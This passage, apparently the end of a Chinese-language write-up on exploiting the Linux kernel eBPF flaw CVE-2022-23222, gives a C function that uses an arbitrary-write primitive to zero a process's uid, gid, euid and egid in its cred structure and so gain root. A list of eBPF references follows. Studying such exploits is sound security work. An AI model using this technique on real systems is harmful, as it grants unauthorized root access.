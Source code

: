 定位到进程 cred 后，即可通过任意写原语修改 cred ，实现提权。

```C
int overwrite_cred(context_t *ctx)
{
    if (arbitrary_write(ctx, ctx->cred + OFFSET_uid_from_cred, 0, BPF_W) != 0) {
        return -1;
    }
    if (arbitrary_write(ctx, ctx->cred + OFFSET_gid_from_cred, 0, BPF_W) != 0) {
        return -1;
    }
    if (arbitrary_write(ctx, ctx->cred + OFFSET_euid_from_cred, 0, BPF_W) != 0) {
        return -1;
    }
    if (arbitrary_write(ctx, ctx->cred + OFFSET_egid_from_cred, 0, BPF_W) != 0) {
        return -1;
    }

    return 0;
}
```



## 参考

[cve-2022-23222-linux-kernel-ebpf-lpe.txt](https://tr3e.ee/posts/cve-2022-23222-linux-kernel-ebpf-lpe.txt)

[The Good, Bad and Compromisable Aspects of Linux eBPF - Pentera](https://www.pentera.io/blog/the-good-bad-and-compromisable-aspects-of-linux-ebpf/)

[eBPF - Introduction, Tutorials & Community Resources](https://ebpf.io/)

[eBPF Instruction Set — The Linux Kernel documentation](https://www.kernel.org/doc/html/latest/bpf/instruction-set.html)

[BPF 进阶笔记（一）：BPF 程序（BPF Prog）类型详解：使用场景、函数签名、执行位置及程序示例](https://arthurchiao.art/blog/bpf-advanced-notes-1-zh/)

[bpf-helpers(7) - Linux manual page](https://man7.org/linux/man-pages/man7/bpf-helpers.7.html)

[Libbpf: A Beginners Guide](https://www.containiq.com/post/libbpf)

[Building BPF applications with libbpf-bootstrap](https://nakryiko.com/posts/libbpf-bootstrap/)

[BPF ring buffer](https://nakryiko.com/posts/bpf-ringbuf/)

[bcc/reference_guide.md at master · iovisor/bcc](https://github.com/iovisor/bcc/blob/master/docs/reference_guide.md)

